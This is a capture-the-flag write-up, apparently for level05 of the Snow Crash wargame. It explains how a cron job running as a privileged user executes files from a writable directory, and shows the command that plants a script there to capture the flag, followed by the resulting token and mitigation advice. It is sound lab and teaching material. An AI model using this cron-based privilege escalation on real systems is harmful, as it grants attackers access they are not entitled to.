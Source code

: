 # Level05 - Snow Crash Exploit

## Description

While exploring the `level05` environment, I discovered a file owned by `flag05` using:

```bash
find / -user flag05 2> /dev/null
```

This revealed `/usr/sbin/openarenaserver`, a shell script with the following content:

```sh
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

The script executes every file in `/opt/openarenaserver/` with a CPU time limit, then deletes it.

## Privilege Escalation Path

- The `/opt/openarenaserver/` directory is writable by `level05`.
- Direct execution of `/usr/sbin/openarenaserver` is not permitted due to insufficient permissions.
- Using `find / -name level05 2> /dev/null`, I found `/var/mail/level05`, which contains:
  ```
  */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
  ```
- This cron job runs `/usr/sbin/openarenaserver` as `flag05` every 2 minutes.

## Exploitation Steps

1. **Create a Malicious Script in `/opt/openarenaserver/`:**

    ```bash
    echo '/bin/getflag > /tmp/flag05' > /opt/openarenaserver/getflag05
    ```

2. **Wait for the Cron Job to Execute:**

    The cron job will run the script as `flag05` within 2 minutes, executing `getflag` and saving the output to `/tmp/flag05`.

3. **Retrieve the Flag:**

    ```bash
    cat /tmp/flag05
    ```

    Output:
    ```
    Check flag.Here is your token : viuaaale9huek52boumoomioc
    ```

## Mitigation

To prevent this vulnerability:
- Do not execute scripts from world-writable directories as privileged users.
- Use secure directories with proper permissions for scripts executed by cron